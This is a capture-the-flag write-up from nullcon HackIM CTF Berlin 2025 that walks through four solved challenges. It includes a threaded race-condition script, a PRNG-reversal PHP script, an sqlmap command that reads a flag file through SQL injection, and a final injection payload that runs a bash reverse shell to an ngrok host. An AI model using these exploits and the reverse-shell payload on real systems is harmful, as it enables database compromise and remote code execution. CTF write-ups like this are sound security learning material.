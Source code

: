 ```yaml
---
title: "nullcon HackIM CTF Berlin 2025"
date: 2025-09-12
description: "not too much..."
draft: false
author: "hsw"
type: "post"
tags: [web]
categories: [Write-ups]
cover: 'https://ctf.nullcon.net/files/6e2a2b9a3c150ac95636f00c62fdeda9/HackIM_Screen.jpg'
translationKey: 'media'
stage: "evergreen"
toc: true
---
```



Congrats to RaptX got 2nd place! Also i first blooded 2 challs
![f 1](/commons/ctfs/nullconCTF2025/f4.png)
![f 2](/commons/ctfs/nullconCTF2025/f3.png)
## webby (first blood)

When we login, it set the variable `loggedIn=True` and the username is current username that we login (which is both conditions needed for the flag), and the `/mfa` checks the admin. But here the misconfiguration causes the race condition:
```py
...
        else:
            session.loggedIn = True             # <- race window start 
            session.username = i.username
            session._save()

        if check_mfa(session.get("username", None)):
            session.doMFA = True
            session.tokenMFA = hashlib.md5(bcrypt.hashpw(str(secrets.randbits(random.randint(40,65))).encode(),bcrypt.gensalt(14))).hexdigest()
            #session.tokenMFA = "acbd18db4cc2f85cedef654fccc4a4d8"
            session.loggedIn = False            # <- race window end 
            session._save()
...
```

```py
class flag:
    def GET(self):
        if not session.get("loggedIn",False) or not session.get("username",None) == "admin":
            raise web.seeother('/')
        else:
            session.kill()
            return render.flag(FLAG)
```
So we just need to call the `/flag` quickly when in the race window, here is solve script:

```py
import threading, requests, time, sys

BASE = "http://52.59.124.14:5010"     
USER, PW = "admin", "admin"

sess = requests.Session()            
sess.get(BASE+"/")                  

flag_found = threading.Event()

def racer():
    """Spray /flag until we win the race."""
    while not flag_found.is_set():
        r = sess.get(BASE+"/flag", allow_redirects=False, timeout=2)
        if r.status_code == 200:
            print("[+] FLAG:", r.text.strip())
            flag_found.set()
            break

threads = [threading.Thread(target=racer, daemon=True) for _ in range(10)]
for t in threads: t.start()

sess.post(BASE+"/", data={
    "username": USER,
    "password": PW,
    "submit":   "Login"
}, timeout=5)

for t in threads: t.join(1)
if not flag_found.is_set():
    print("[-] Didn’t win the race, run again or add more threads")

```


## pwgen 

Easily we can identify this is unsecure PRNG, here is solve script with ChatGPT :D 
```php
<?php

$shuffled_flag = "7F6_23Ha8:5E4N3_/e27833D4S5cNaT_1i_O46STLf3r-4AH6133bdTO5p419U0n53Rdc80F4_Lb6_65BSeWb38f86{dGTf4}eE8__SW4Dp86_4f1VNH8H_C10e7L62154";
$flag_length = strlen($shuffled_flag);

$identity_string = '';
for ($i = 0; $i < $flag_length; $i++) {
    $identity_string .= chr($i);
}

echo "Searching for the flag by reversing all possible shuffles (1 to 1000)...\n";

for ($n = 1; $n <= 1000; $n++) {
    srand(0x1337);
    $permuted_identity = '';
    for ($i = 0; $i < $n; $i++) {
        $permuted_identity = str_shuffle($identity_string);
    }

    $inverse_map = array_fill(0, $flag_length, 0);
    for ($shuffled_pos = 0; $shuffled_pos < $flag_length; $shuffled_pos++) {
        $char_at_shuffled_pos = $permuted_identity[$shuffled_pos];
        $original_pos = ord($char_at_shuffled_pos);
        $inverse_map[$shuffled_pos] = $original_pos;
    }

    $potential_flag_array = array_fill(0, $flag_length, '');
    for ($i = 0; $i < $flag_length; $i++) {
        $potential_flag_array[$inverse_map[$i]] = $shuffled_flag[$i];
    }
    $potential_flag = implode('', $potential_flag_array);

    if (strpos($potential_flag, '{') !== false && strpos($potential_flag, '}') !== false) {
        echo "--------------------------------------------------\n";
        echo "✅ Success! Found a potential flag at shuffle count (nthpw) = $n\n";
        echo "Flag: $potential_flag\n";
        echo "--------------------------------------------------\n";
        break; 
    }
}

?>
```

## dogfinder-v1

To be honest, i think ill be certificated prompt engineer after solve 2 versions of this black box challege, firstly i did sqlmap to find the sink that is `order` parameter, then i just prompt with the information i got (also i did research in paralel)

Payload for V1:

```bash
python3 sqlmap.py -u "http://52.59.124.14:5020/?order=id" -p order \
  --sql-query="SELECT pg_read_file('flag.txt',0,8192);" \
  --batch --threads=4 --time-sec=8 
```

## dogfinder-v2 (first blood)

I guess everyone is can easily do the v1, and lack a little lucky for v2, yall know its only have `pg_execute_server_program`, i tested multiple time with https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html?highlight=pentest%20postgre#rce then still no luck, after ~1 hour, i got the flag:  
  
![f 1](/commons/ctfs/nullconCTF2025/f1.png)

![f 2](/commons/ctfs/nullconCTF2025/f2.png)

Aight, but i still can't sleep tho, but somehow it has a bit longer then i tried to make rev shell and BOOM, it worked! Here is final payload:

```
http://52.59.124.14:5021/?order=1%3BSET%20ROLE%20pg_execute_server_program%3BCOPY%20(SELECT%20'')%20TO%20PROGRAM%20'bash%20-c%20"exec%20bash%20-i%20>%26%20/dev/tcp/0.tcp.ap.ngrok.io/12365%200>%261"'%3BSELECT%20'shell'%2C1%2C1%3B--
```